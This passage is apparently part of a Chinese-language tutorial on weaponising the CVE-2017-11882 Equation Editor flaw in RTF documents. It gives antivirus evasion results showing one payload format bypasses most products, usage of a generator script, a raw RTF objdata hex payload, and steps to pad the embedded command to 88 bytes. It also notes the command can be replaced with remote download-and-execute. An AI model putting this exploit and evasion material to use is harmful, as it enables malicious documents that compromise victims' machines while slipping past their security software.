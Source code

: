   火绒/360 检测大致有两个层面，首先 EQNEDT32.EXE 进程敏感操作拦截，如执行 cmd 或其他指令，第二再 0x411655 地址内存补丁，检测拷贝大小是否越界。

-   格式 1，msf 原生&常规格式 exp 免杀效果：
    
    ```plain
    名称  360 智量  火绒  金山  瑞星  腾讯  WinDefender
    免杀  Kill    Kill    Kill    Kill    Kill    Kill    kill
    ```
    
-   格式 2，免杀效果：
    
    ```plain
    名称  360 智量  火绒  金山  瑞星  腾讯  WinDefender
    免杀  Kill    Bypass  Kill    Bypass  Bypass  Bypass  Bypass
    ```
    

  格式 2-exp 基于 18 年 360 捕获野外样本进行利用，部分杀软对变种没有进行很好的拦截，也没有做内存补丁拷贝溢出监视，有一定免杀效果。用免杀较好的格式 2 编写了.py 生成，需要注意使用如下：

```plain
用法格式：python cve-2017-11882-exp.py -c "cmd.exe /ccalc.exe &" -o 123456.rtf
```

  注意：生成 exp 需要手动调整，下述标红便是输入的”cmd.exe /ccalc”指令，红色和绿色之间加上一个字符 (41 41 41 中间随意插入)，凑够 88 个字节 (生成后是 87 个)。

```plain
{\*\objdata 01050000020000000b0000004571756174696f6e2e3300000000000000000041000000030101030a0a0401010112836100080000636d642e657865202f6363616c632e657865202641414141414141414141414141414141414141414141414120c43000105000000000000}
[*] Done ! output file >> 123456.rtf <<
```

  nodepad 打开 exp，搜索 41414141 快速定位，按照上述补齐 88 个字节，这 88 个字节可以等换任意可执行的指令，比如执行%temp%xxx.exe 或[http://远程下载](http://xn--ghqp68hvpn1ka/) & 执行。

[![](assets/1708482417-96bbf6e6c52ccbadcea8b230ed2937a7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220084722-9b8bdc58-cf89-1.png)
